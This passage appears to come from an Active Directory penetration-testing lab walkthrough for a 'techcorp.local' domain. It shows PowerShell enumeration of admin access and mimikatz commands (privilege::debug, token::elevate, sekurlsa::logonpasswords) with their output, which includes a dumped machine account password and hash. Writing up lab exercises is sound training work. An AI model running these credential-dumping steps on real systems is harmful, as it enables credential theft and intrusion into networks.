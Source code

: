 ```powershell
         * SHA1     : 5358fe9870790deeb4ddda29a49863e48d1e5707
        tspkg :
        wdigest :
         * Username : US-HELPDESK$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-HELPDESK$
         * Domain   : us.techcorp.local
         * Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF8*8_/W``4SG]+R]#7n[dlTQ_qQ<LwB;t$1p?qCp9?j/
        ssp :
        credman :

<snip>
```
# 16. Rights, Privileges and Permissions of `us\helpdeskadmin`
## 16.1 Access Rights
- Having compromised the credentials of `us\helpdeskadmin`, we can start enumerating for further access rights to any new domain resources.
```powershell
PS C:\Auditor> ipmo .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\Auditor> Find-PSRemotingLocalAdminAccess
US-HelpDesk
US-ADConnect
```
## 16.2 Account Privileges
- This account has administrative privileges on `US-HELPDESK` and `US-ADCONNECT`.
## 16.3 Account Permissions
- This account does not have any interesting permissions.
# 17. Extracting Credentials and Tokens from `US-ADCONNECT`
- We can access `US-ADCONNECT` and steal credentials and tokens.
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

<snip>

mimikatz # sekurlsa::logonpasswords


Authentication Id : 0 ; 1337758 (00000000:0014699e)
Session           : RemoteInteractive from 2
User Name         : adconnect
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 3:02:05 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1114
        msv :
         [00000003] Primary
         * Username : adconnect
```